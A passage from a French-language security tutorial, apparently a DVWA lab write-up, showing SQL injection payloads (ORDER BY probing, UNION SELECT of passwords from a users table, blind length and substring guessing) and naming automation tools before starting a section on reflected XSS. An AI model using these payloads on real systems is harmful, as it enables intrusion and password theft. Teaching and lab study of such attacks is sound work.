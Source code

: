 \begin{verbatim}
L'injection [ ' ORDER BY 1 # ], sans les crochets, ne renvoie rien,  par contre 
[ ' ORDER BY 3 # ] affiche "Unknown column '3' in 'order clause' ". 
La requête du script PHP utilise donc deux champs.
\end{verbatim} 

\begin{verbatim}
Ensuite, des injections [ ' UNION SELECT password, last_name FROM xxxx # ]
où xxxx désigne un nom de table évocant une liste d'utilisateurs ; on testera
utilisateurs, users, user, etc
\end{verbatim} 

\begin{verbatim}
Des injections [ ' UNION SELECT password, last_name FROM users 
WHERE LENGTH(password) = longeur # ] avec longueur = 1, 2, 3, ... 
vont permettre, itérativement, de connaître la taille du mot de passe.
\end{verbatim} 

\begin{verbatim}
Des injections [ ' UNION SELECT password, last_name FROM users 
WHERE LENGTH(password) = 8 AND SUBSTRING(password,1,1)='a' # ] 
testent si le mot de passe commence par "a".
\end{verbatim} 
\subsection{Contre-mesure}

On le voit ce type d'attaques peut devenir rapidement fastidieuses, voire impraticables. Une approche médiane consiste à écrire des scripts en python important des modules comme httplib et urllib.

Enfin, des produits sur étagères comme Burp suite/sqlmap ou, mieux,   \href{www.itsecteam.com}{havij} permettent de s'attaquer aux niveaux "Low", "Medium" "High" de manière plus efficace. Havij est cependant un outil windows ; Sous fedora 26, on doit installer une machine virtuelle windows ;  l'utilisation de wine est quant à elle souvent hasardeuse.


\section{Attaques Reflected XSS (non persistante)}

\subsection{Description}
Le Cross Site Scripting fait partie de la catégorie des attaques par injection au même titre que le SQLi décrit plus haut. Le Cross Site Scripting est désigné par l'acronyme XSS car CSS était déjà utilisé. Le terme XSS est en fait mal choisi car l'attaque n'implique pas forcément plusieurs sites. En outre, un cracker peut entreprendre des attaques XSS en JavaScript mais aussi à l'aide d’autres langages ou sans utiliser les balises <script></script>.

